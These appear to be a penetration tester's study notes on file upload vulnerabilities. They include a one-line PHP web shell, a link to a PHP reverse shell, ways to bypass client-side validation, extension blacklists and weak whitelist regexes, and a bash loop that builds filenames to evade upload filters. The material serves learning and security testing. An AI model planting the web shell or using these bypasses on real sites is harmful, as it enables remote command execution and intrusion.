 
* php reverse shell
    * https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```php
//webshell
<?php system($_REQUEST['cmd']);?>
```
* If the page could not run PHP payload, we would see our source code printed on the page
---
# <span style=color:#44D62C>Bypassing Filters</span>
## Client-side validation
* =Front-end validation
* burp to change the file name and content

![image](https://hackmd.io/_uploads/HJuJ3AzrR.png)
* find valid function in inspact
    * remove the validate() in onsubmit
    * remove the accept's content

![image](https://hackmd.io/_uploads/BJC320GHA.png)

![image](https://hackmd.io/_uploads/rJHS3AGHR.png)

---
## Blacklist
* extension payload
    * https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
    * https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP
* try all bypass extension after fuzzing
    * <span style=color:red>Not all extensions will work with all web server configurations</span>

![image](https://hackmd.io/_uploads/S191jgmrR.png)

## Whitelist
* weak regular expression(reg)
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```
* by pass with dobule extension
    * <span style=color:red>shell.jpg.php</span>
* web-extensions payload
    * https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
* strict regular expression(reg)
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```
* bypass bash script
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```